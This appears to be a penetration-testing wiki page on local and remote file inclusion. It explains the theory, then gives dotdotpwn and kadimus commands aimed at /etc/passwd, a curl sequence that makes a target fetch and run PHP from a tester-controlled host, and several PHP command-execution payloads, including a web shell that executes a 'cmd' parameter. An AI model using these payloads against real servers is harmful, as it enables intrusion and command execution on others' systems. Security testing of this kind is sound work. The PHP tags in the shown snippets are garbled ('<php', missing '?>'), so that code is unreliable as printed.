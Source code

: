 ```yaml
---
authors: ShutdownRepo
category: web
---
```


# File inclusion

## Theory

Many web applications manage files and use server-side scripts to include them. When input parameters (cookies, GET or POST parameters) used in those scripts are insufficiently validated and sanitized, these web apps can be vulnerable to file inclusion.

LFI/RFI (Local/Remote File Inclusion) attacks allow attackers to read sensitive files, include local or remote content that could lead to RCE (Remote Code Execution) or to client-side attacks such as XSS (Cross-Site Scripting).

[Directory traversal](../directory-traversal.md) (a.k.a. path traversal, directory climbing, backtracking, the dot dot slash attack) attacks allow attackers to access sensitive files on the file system, outside the web server directory. File inclusion attacks can leverage a directory traversal vulnerability to include files with a relative path.

## Practice

Testers need to identify input vectors (parts of the app that accept content from the users) that could be used for file-related operations. For each identified vector, testers need to check if malicious strings and values successfully exploit any vulnerability.

* Local File Inclusion: inclusion of a local file (in the webserver directory) using an absolute path
* LFI + directory traversal: inclusion of a local file (in the webserver directory or not) by "climbing" the server tree with `../` (relative path)
* Remote File Inclusion: inclusion of a remote file (not on the server) using a URI

The tool [dotdotpwn](https://github.com/wireghoul/dotdotpwn) (Perl) can help in finding and exploiting directory traversal vulnerabilities by fuzzing the web app. However, manual testing is usually more efficient.

```bash
# With a request file where /?argument=TRAVERSAL (request file must be in /usr/share/dotdotpwn)
dotdotpwn.pl -m payload -h $RHOST -x $RPORT -p $REQUESTFILE -k "root:" -f /etc/passwd

# Generate a wordlist in STDOUT that can be used by other fuzzers (ffuf, gobuster...)
dotdotpwn -m stdout -d 5
```

The tool [kadimus](https://github.com/P0cL4bs/Kadimus) (C) can help in finding and exploiting File Inclusion vulnerabilities. However, manual testing is usually more efficient.

```bash
kadimus --user-agent "PENTEST" -u '$URL/?parameter=value'
```

Depending on the environment, file inclusions can sometimes lead to RCE (Remote Code Execution) by including a local file containing code previously injected by the attacker or a remote file containing code that the server can execute.

Local file inclusions can sometimes be combined with other vulnerabilities to achieve code execution

* directory traversal
* null-byte injection
* unrestricted file upload
* log poisoning

Once an attacker is able to execute code on a target, testing the limitations of that code execution can help to go from code execution (e.g. PHP, ASPX, etc.) to command execution (e.g. Linux or Windows commands).

With PHP as example, the tester can create a `phpinfo.php` containing `php phpinfo(); ?` and use a simple HTTP server so that the target application can fetch it. When exploiting the RFI to include the `phpinfo.php` file, the tester server will send the plaintext PHP code to the target server that should execute the code and show the `phpinfo` in the response.

> [!WARNING]
> If the tester server used to host the `phpinfo.php` file can interpret PHP, it will. The tester will not achieve code execution on the target server but on his own instead. A simple HTTP server will do.

```bash
# Create phpinfo.php
echo 'php phpinfo(); ?' > phpinfo.php

# Start a web server
python3 -m http.server 80

# Exploit the RFI to fetch the remote phpinfo.php file
curl '$URL/?parameter=http://tester.server/phpinfo.php'
```

If the phpinfo has been successfully printed in the response, the tester can engage a more offensive approach by trying to execute commands with one of the following payloads.

> [!TIP]
> As code execution functions can be filtered, the phpinfo testing phase is required to assert that arbitrary PHP code is included and interpreted.

```php
<php system('whoami'); ?>
```

```php
<php exec('whoami'); ?>
```

```php
<php passthru('whoami'); ?>
```

```php
<php shell_exec('whoami'); ?
```

```php
<php if(isset($_REQUEST['cmd'])){ echo "<pre"; $cmd = ($_REQUEST['cmd']); system($cmd); echo ""; die; }?>
```


> [!TIP]
> Read the "LFI to RCE" articles for more insight



> [!TIP]
> Read the [RFI to RCE](rfi-to-rce) article for more insight


## Resources

[https://www.acunetix.com/websitesecurity/directory-traversal](https://www.acunetix.com/websitesecurity/directory-traversal)

[https://portswigger.net/web-security/file-path-traversal](https://portswigger.net/web-security/file-path-traversal)

[https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/01-Testing_Directory_Traversal_File_Include.html](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/01-Testing_Directory_Traversal_File_Include.html)
Directory traversal and File Include

[https://owasp.org/www-community/attacks/Path_Traversal](https://owasp.org/www-community/attacks/Path_Traversal)
Testing for Directory traversal

[https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.2-Testing_for_Remote_File_Inclusion.html](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.2-Testing_for_Remote_File_Inclusion.html)
Testing for Remote File Inclusion

[https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion.html](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion.html)
Testing for Local File Inclusion

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal)

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)